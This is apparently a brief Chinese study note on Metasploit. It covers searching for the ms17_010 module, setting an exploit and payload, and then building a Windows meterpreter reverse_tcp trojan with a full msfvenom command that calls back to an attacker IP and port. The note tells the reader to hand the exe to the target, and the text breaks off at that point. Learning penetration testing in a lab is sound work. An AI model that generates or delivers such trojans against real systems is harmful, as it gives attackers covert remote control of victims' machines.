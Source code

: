 ![image-20250320080158922](assets/image-20250320080158922.png)

进入msfconsole

1. 使用模块

   search ms17_010(wins 漏洞编号)

2. 配置：

   exploit 漏洞攻击脚本

   payload 攻击载荷

   ![image-20250316181723478](assets/image-20250316181723478.png)

3. 运行模块

4. meterpreter：远程控制别人。

   生成一个木马程序：msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.31.130(kali的ip) lport=1234（随便设置）-f exe -o demo.exe

   把这个exe文件给到靶方，
